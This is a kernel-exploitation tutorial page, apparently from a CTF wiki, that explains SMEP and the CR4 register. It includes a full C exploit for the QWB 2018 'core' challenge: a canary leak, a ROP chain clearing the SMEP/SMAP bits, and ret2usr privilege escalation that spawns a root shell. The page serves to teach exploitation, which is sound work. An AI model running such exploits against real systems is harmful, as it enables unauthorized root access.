


# bypass-smep (Deprecated)

## SMEP 

To prevent `ret2usr` attacks, CPU developers introduced the `smep` protection — `Supervisor Mode Execution Protection`, which triggers a page fault when the CPU is in `ring0` mode and attempts to execute `user-space code`.

> There is a similar protection on ARM architecture called `PXN`.

For Linux VMs launched with QEMU, we can check whether SMEP protection is enabled by looking at the CPU parameter in the startup arguments:

```shell
$ cat run.sh | grep -i smep
    -cpu kvm64,+smep,+smap \
```

We can also confirm by checking the `/proc/cpuinfo` file:

```shell
~ $ cat /proc/cpuinfo | grep -i smep
flags           : fpu de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse......
```

### smep and CR4 Register

The `CR4` register in the control register group is used to control various CPU features. The CPU determines whether smep protection is enabled based on the value of the CR4 register. When the 20th bit of the CR4 register is 1, protection is enabled; when it is 0, protection is disabled.



For example, when `$CR4 = 0x1407f0 = 000 1 0100 0000 0111 1111 0000`, smep protection is enabled. The CR4 register can be modified via the mov instruction, so we only need to execute the following assembly instruction:

```asm
mov cr4, 0x1407e0
# 0x1407e0 = 101 0 0000 0011 1111 00000
```
to disable smep protection.

When debugging the kernel with GDB, we can view the current CPU's CR4 register value and the corresponding enabled flags using the `info register cr4` command:

```shell
(gdb) info registers cr4
cr4            0x3006f0            [ SMAP SMEP OSXMMEXCPT OSFXSR PGE MCE PAE PSE ]
```

## Example: QWB 2018 - core

This time we add the smep and smap options to the startup script:

```sh
qemu-system-x86_64 \
-m 128M \
-cpu qemu64-v1,+smep,+smap \
-kernel ./bzImage \
-initrd  ./rootfs.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

After that, we re-run the previous ret2usr exploit and find that it immediately triggers a kernel panic. This is because we attempted to execute a user-space function pointer, which triggered the SMEP protection.



So here we just need to use ROP to disable SMEP&SMAP, and then we can continue with ret2usr. Here the author used an AND operation to clear the two bits for SMEP and SMAP. In practice, directly assigning `0x6f0` to cr4 also works (this is usually the value after disabling them).

The final exploit is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t kernel_base = 0xffffffff81000000, kernel_offset;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    log_success("[*] Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

void* (*prepare_kernel_cred_kfunc)(void *task_struct);
int (*commit_creds_kfunc)(void *cred);

void ret2usr_attack(void)
{
    prepare_kernel_cred_kfunc = (void*(*)(void*)) prepare_kernel_cred;
    commit_creds_kfunc = (int (*)(void*)) commit_creds;

    (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

    asm volatile(
        "mov rax, user_ss;"
        "push rax;"
        "mov rax, user_sp;"
        "sub rax, 8;"   /* stack balance */
        "push rax;"
        "mov rax, user_rflags;"
        "push rax;"
        "mov rax, user_cs;"
        "push rax;"
        "lea rax, get_root_shell;"
        "push rax;"
        "swapgs;"
        "iretq;"
    );
}

/**
 * Challenge Interface
**/

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff8109c8e0
#define MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET 0xffffffff8106669c
#define POP_RDI_RET 0xffffffff81000b2f
#define AND_RAX_RDI_RET 0xffffffff8102b45b
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515

void exploitation(void)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x1000], type[0x10];
    size_t addr;
    size_t canary;
    size_t rop_chain[0x100], i;

    log_info("[*] Start to exploit...");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }

    /* get addresses of kernel symbols */

    log_info("[*] Reading /tmp/kallsyms...");

    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        log_error("[x] Failed to open the sym_table file!");
        exit(EXIT_FAILURE);
    }

    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) {
            break;
        }

        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf(
                SUCCESS_MSG("[+] Successful to get the addr of commit_cread: ")   
        	   "%lx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf(SUCCESS_MSG(
                "[+] Successful to get the addr of prepare_kernel_cred: ")
        	   "%lx\n", prepare_kernel_cred);
            continue;
        }
    }

    kernel_offset = commit_creds - COMMIT_CREDS;
    kernel_base += kernel_offset;
    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    /* reading canary value */

    log_info("[*] Reading value of kernel stack canary...");

    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t*) buf)[0];

    printf(SUCCESS_MSG("[+] Got kernel stack canary: ") "%lx\n", canary);

    /* building ROP chain */

    rop_chain[8] = canary;
    i = 10;
    rop_chain[i++] = MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET + kernel_offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = POP_RDI_RET + kernel_offset;
    rop_chain[i++] = 0xffffffffffcfffff;
    rop_chain[i++] = AND_RAX_RDI_RET + kernel_offset;
    rop_chain[i++] = MOV_CR4_RAX_PUSH_RCX_POPFQ_RET + kernel_offset;
    rop_chain[i++] = (size_t) ret2usr_attack;

    /* exploitation */

    log_info("[*] Start ret2usr attack with smep-bypass in kernel space...");

    write(fd, rop_chain, 0x800);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}

int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```

## Others

As we mentioned in the `ret2usr` section, for kernels with KPTI enabled, the user address space in the kernel page table has no execute permission. Therefore, when the kernel attempts to execute user-space code, it will directly panic because the corresponding top-level page table entry does not have the executable bit set. This means that ret2usr is already a thing of the past, and **correspondingly, the smep bypass that accompanies it has also become a thing of the past**.
